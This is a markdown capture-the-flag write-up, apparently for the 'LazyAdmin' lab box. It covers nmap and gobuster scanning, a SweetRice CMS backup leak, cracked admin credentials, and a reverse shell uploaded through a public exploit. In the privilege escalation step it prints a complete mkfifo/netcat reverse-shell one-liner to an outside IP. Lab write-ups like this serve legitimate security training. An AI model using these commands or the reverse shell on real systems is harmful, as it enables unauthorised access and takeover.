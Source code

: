 # LazyAdmin

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.137.142 -v`

`gobuster dir -u 0.10.137.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`


### Open ports

```
22
80
```

## Users


```
manager:Password123 -> creds of http://10.10.137.142/content/as/
```


## Endpoints
```
http://10.10.137.142/content -> is running Basic-CMS (SweetRice)
http://10.10.137.142/content/inc/mysql_backup/ -> mysql backup, (SweetRice 1.5.1 - Backup Disclosure)
http://10.10.137.142/content/as/ -> admin login
http://10.10.137.142/content/inc/lastest.txt -> shows SweetRice version
```



## Notes

* Found SweetRice Basic-CMS running in `/content`

* Found mysql_backup in `http://10.10.137.142/content/inc/mysql_backup/`

* Found admin login in `http://10.10.137.142/content/as/`

* Found has in `mysql_backup` and hashcat cracked the hash

![image](https://user-images.githubusercontent.com/12052283/131159165-4e0342ed-ad9a-410c-a712-8a00b8f4cffe.png)


![image](https://user-images.githubusercontent.com/12052283/131159104-d4ebad00-77fb-470e-8dd0-5d9bbaad97b4.png)

* Logged in in `http://10.10.137.142/content/as/` with `manager:Password123`

* Could not upload shell using `exploit.py`

* Using `https://www.exploit-db.com/exploits/40700` I was able to create a Ads , upload a rev shell and check that Ads in `content/inc/ads/`

![image](https://user-images.githubusercontent.com/12052283/131162704-6e1f808e-5b9f-49f7-847c-c82306ec3a37.png)

* Found random mysql creds

![image](https://user-images.githubusercontent.com/12052283/131163206-babaef7d-160b-4c0d-8966-d2172003d10b.png)

* Running `sudo -l`

![image](https://user-images.githubusercontent.com/12052283/131165373-46cc1ecd-8c3f-42bb-9bdb-37d203f80920.png)

* To edit the `/etc/copy.sh` I did `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.149.54 5554 >/tmp/f` since we dont have permissions to use nano and vim and got root

![image](https://user-images.githubusercontent.com/12052283/131166062-1a1a396a-6adb-4431-aa5d-eb1bfa28b4e1.png)



# References

* https://www.exploit-db.com/
